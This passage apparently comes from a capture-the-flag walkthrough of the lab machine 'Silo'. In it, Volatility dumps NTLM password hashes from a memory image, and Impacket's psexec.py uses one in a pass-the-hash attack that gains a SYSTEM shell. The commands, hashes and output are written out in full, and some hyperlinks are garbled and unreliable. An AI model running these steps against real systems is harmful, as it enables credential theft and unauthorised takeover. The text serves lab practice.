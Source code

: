 > Note: To use hashdump, you must specify the virtual address of the SYSTEM column with the -y parameter and the virtual address of the SAM column with the -s parameter.

`    ╭─[/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000   Volatility Foundation Volatility Framework 2.6   Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::   Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::   Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::    `

We could try to crack these, but first, let's try the pass the hash attack:

\`  
`╭─[/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # /opt/impacket/examples/`[`psexec.py`](https://nmap.org/submit/) `-hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82`[`administrator@10.10.10.82`](mailto:administrator@10.10.10.82)`   Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies`

`[] Requesting shares on 10.10.10.82.....   [] Found writable share ADMIN$   [] Uploading file XryxqKFr.exe   [] Opening SVCManager on 10.10.10.82.....   [] Creating service PAYb on 10.10.10.82.....   [] Starting service PAYb.....   [!] Press help for extra shell commands   Microsoft Windows` [`Version 6.3.9600`](https://dev.toc/) `2013 Microsoft Corporation. All rights reserved.`

`C:\Windows\system32>whoami   nt authority\system   `

don't forget to follow for more thank you very much *Ferdi Birgül*

cyber security expert
